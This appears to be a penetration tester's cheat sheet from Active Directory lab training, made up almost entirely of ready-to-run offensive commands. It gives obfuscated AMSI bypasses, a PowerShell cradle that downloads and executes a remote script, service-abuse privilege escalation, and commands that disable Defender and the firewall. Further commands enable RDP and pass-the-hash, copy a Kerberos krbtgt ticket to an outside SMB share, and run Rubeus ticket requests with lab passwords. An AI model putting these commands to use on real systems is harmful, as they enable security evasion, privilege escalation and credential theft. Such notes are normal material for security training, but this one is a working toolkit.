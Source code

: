 #### AMSI Bypasses ####
1. CRTP Bypass
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

-> Run twice (the first will be detected but it will decimate AMSI so the second one would run perfectly) 
```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

2. Modern Bypass 1 (2023)
```
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

3. Modern Bypass 2 (2023)
```
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

- Download-Execute Cradle
`iex (New-Object Net.WebClient).DownloadString('http://172.16.99.3/PowerUp.ps1')`

#### Local PrivEsc ####
1. Abusing service permissions
`Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose`

2. Abusing unquoted service path
`Write-ServiceBinary -Name 'AbyssWebServer' -Path 'C:\WebServer\Abyss.exe' -UserName 'dcorp\studentx' -Verbose`

3. Abusing service executable (binary) permissions
`Write-ServiceBinary -Name 'AbyssWebServer' -Path 'C:\WebServer\Abyss Web Server\abyssws.exe' -UserName 'dcorp\studentx' -Verbose`

- Disable Defender
`Set-MpPreference -DisableRealtimeMonitoring $true`

- Disable Firewall
`Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False`

- Create a New Inbound Firewall Rule
`New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080`

- Create a New Inbound Firewall Rule
`New-NetFirewallRule -DisplayName "8080-Out" -Direction Outbound -Protocol TCP -Action Allow -LocalPort 8080`

- Enable RDP
`Set-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Terminal Server' fDenyTSConnections 0`
`Enable-NetFirewallRule -DisplayName 'Remote Desktop - User Mode (TCP-In)'`
`Enable-NetFirewallRule -DisplayName 'Remote Desktop - User Mode (UDP-In)'`

- Enable Restricted Admin Mode to Allow PtH
`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

- Remote access
`ssh htb-student@10.129.176.110`
`xfreerdp /v:10.129.201.234 /u:htb-student /p:'Academy_student_AD!'
(if xfreerdp is not working → (`apt reinstall freerdp2-x11`)

- Transfer Files via SCP
`scp htb-student@10.129.176.110:/opt/host-enum.txt host-enum.txt`

- Transfer Files via SMB
`impacket-smbserver Docs -smb2support . -user test -password test`
`net use n: \\10.10.14.100\Docs /user:test test`
`copy .\0-40e10000-htb-student@krbtgt~INLANEFREIGHT.LOCAL-INLANEFREIGHT.LOCAL.kirbi \\10.10.14.100\Docs\`

- Launch a PowerShell session on a different computer as a nother user.
`$passwd = ConvertTo-SecureString -AsPlainText -Force -String <PASSWORD>`
`$cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "Domain\User",$passwd`

- Run commands on a remote computer.
`Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <COMPUTER> -Credential $cred`

- Start an interactive session with a remote computer.
`Enter-PSSession -ComputerName <COMPUTER> -Credential $cred`

- Create a persistent PSSession on a local or remote computer.
`New-PSSession -ComputerName <COMPUTER> -Credential $cred`

#### Rubeus ####
- Create sacrificial process.
`.\Rubeus.exe createnetonly /program:'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' /username:student33 /password:htTz2J72nH9KuAXr /domain:certbulk.cb.corp /show`

- Request a TGT using PKINIT.
`.\Rubeus.exe asktgt /user:certstore /certificate:C:\ADCS\MyTools\Certificates\certstore.pfx /domain:cb.corp /dc:cb-ca.cb.corp /password:Passw0rd! /nowrap /ptt`